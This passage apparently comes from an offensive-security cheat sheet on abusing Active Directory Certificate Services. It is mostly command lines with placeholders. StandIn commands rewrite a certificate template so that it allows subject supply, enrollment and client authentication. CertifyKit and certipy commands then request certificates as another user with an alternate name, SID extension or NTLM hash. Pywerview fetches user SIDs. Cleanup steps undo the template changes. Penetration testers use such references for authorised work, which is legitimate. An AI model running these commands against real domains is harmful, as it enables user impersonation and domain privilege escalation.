 ````
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME>
```

### Configure ESC1 client authentication
#### Add ENROLEE_SUPPLIES_SUBJECT
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --ess --add
```

#### Add Enrollment
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --ntaccount "<DOMAIN>\<USERS>" --enroll --add
```

#### Add client authentication EKU
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --clientauth --add
```

#### Abuse same as ESC1 for Windows/Linux
- [ESC1 Link](#ESC1-Request-SAN-of-other-user)

#### Cleanup
```
## Remove Enrollment rights for cb\certstore
C:\ADCS\Tools> C:\ADCS\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter <TEMPLATE NAME> --ntaccount <DOMAIN>\<USER> --enroll --remove

## Remove ENROLLEE_SUPPLIES_SUBJECT
C:\ADCS\Tools> C:\ADCS\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter <TEMPLATE NAME> --ess --remove
```

#### Configure SmartCardLogon and request certs
-  `/alter` module alters the target template with SmartCardLogon and requests a new certificate for an alternate name and restores the template
```
.\CertifyKit.exe request /ca:<FQDC CA>\<CA NAME> /template:<TEMPLATE NAME> /altname:<USER> /domain:<FQDN DOMAIN> /alter /sidextension:<TARGET OBJECT SID>
```

### Linux
#### Enumerate ACLs
```
certipy find -u <USER> -p <PASSWORD> -stdout
```

### Configure ESC1
- Possible to use https://github.com/fortalice/modifyCertTemplate for more controls
#### Save template
```
certipy template -u <USER>@<FQDN> -hashes <NTLM HASH> -template <TEMPLATE NAME> -save-old
```

#### Get domain user SID
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Abuse ESC4
```
certipy req -u <USER> -hashes <NTLM HASH> -ca <CA NAME> -target <FQDN CA> -template <TEMPLATE NAME> -upn <USER>@<FQDN DOMAIN> -extensionsid <USER SID> -out 'esc4-certipy' -debug
```

````